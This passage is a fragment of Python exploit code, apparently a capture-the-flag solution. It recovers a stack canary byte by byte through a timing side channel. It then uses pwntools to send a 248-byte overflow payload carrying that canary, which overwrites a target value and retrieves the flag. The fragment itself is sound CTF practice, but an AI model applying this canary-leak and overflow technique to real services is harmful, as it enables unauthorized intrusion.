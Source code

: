 ```py
        if abs(baseline - newtime) <= EPS: # If they are equal to the baseline (which is below), we are still below the canary byte
            min = testing 
        elif newtime > baseline: # If the time has gone up - we have gone higher than the canary value for that byte causing a 5s delay instead of a 2s delay
            max = testing
        else: # the time has decreased (no longer a 2s delay on the byte) we have the byte!
            known.append(chr(testing))
            print(testing)
            break

# output for debugging
print(known)
print([ord(c) for c in known])

# set up appropriate pwntools interface
p = None
if local:
    p = process('./program')
else:
    p = remote(host, port)
p.recvuntil('\n')
#send the correct canary and some extra data to clobber the changeme value
p.sendline(248*"A" + "".join(known) + "AAAA")
print p.recvuntil('}') # print the flag
p.close()
```
---
